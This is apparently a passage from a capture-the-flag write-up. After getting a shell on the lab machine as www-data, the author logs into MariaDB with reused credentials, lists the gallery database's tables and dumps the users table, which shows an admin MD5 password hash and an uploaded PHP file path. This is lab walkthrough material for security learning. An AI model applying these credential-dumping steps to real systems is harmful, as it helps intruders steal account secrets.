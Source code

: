 ```
```

First, let's stabilize our shell, then let's use those credentials to log in on mysql :  
```
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 175
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Now, we can search in mysql for the admin password hash :  
```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gallery_db         |
| information_schema |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1666216200_TagowezuuydtgnfkwucLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2022-10-19 21:50:27 |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)

MariaDB [gallery_db]>
```
